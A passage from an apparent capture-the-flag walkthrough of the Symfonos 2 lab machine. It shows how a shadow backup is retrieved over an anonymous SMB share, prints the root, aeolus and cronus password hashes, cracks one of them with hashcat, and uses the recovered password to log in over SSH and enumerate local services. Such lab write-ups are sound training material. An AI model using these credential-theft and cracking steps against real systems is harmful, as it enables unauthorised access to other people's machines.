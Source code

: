 - Now we can access this `shadow.bak` file from the `anonymous` share. 
- `smbclient --no-pass //10.0.2.11/anonymous`

![Symfonos 2 SMB Share - anonymous](/imgs/symfonos2/symfonos2_smb_share_anonymous.png)

- `get` both the files `passwd` and `shadow.bak` and then we will try to crack the hashes. 

- Contents of `/var/backups/shadow.bak`: 

```
root:$6$VTftENaZ$ggY84BSFETwhissv0N6mt2VaQN9k6/HzwwmTtVkDtTbCbqofFO8MVW.IcOKIzuI07m36uy9.565qelr/beHer.:18095:0:99999:7:::
aeolus:$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:18095:0:99999:7:::
cronus:$6$wOmUfiZO$WajhRWpZyuHbjAbtPDQnR3oVQeEKtZtYYElWomv9xZLOhz7ALkHUT2Wp6cFFg1uLCq49SYel5goXroJ0SxU3D/:18095:0:99999:7:::
```

- Lets add the 3 users `root`, `aeolus`, and `cronus` with their respective hashes to `crack.txt` and attempt to brute force them with `hashcat`. 

#### Hashcat

- `hashid -m crack.txt` => 1800

```
hashcat -m 1800 -w 3 crack.txt /usr/share/wordlists/rockyou.txt -O
```

- And we get the credentials for user `aeolus`. 
- `aeolus:sergioteamo`
- We could have also gotten these credentials by brute forcing SSH and FTP with `hydra` but this FTP file copy exploit method was more interesting. 

#### SSH User Access

- `ssh aeolus@10.0.2.11` => yes => `sergioteamo` 
- And we are logged in as `aeolus` 
- As we can see, our access is pretty limited so lets try running Linux Smart Enumeration script `lse.sh`. We can just `wget` this as raw directly from GitHub to `/home/aeolus` directory and `chmod +x lse.sh` and run it. 

```
[*] net000 Services listening only on localhost............................ yes!
```

- So there are some services running on localhost on `symfonos` and seems like we have access to `nmap`. 
- `nmap -p- 127.0.0.1`

```
127.0.0.1:3306 => MySQL
127.0.0.1:8080 => HTTP Proxy
```

![Symfonos 2 nmap localhost](/imgs/symfonos2/symfonos2_nmap_localhost.png)

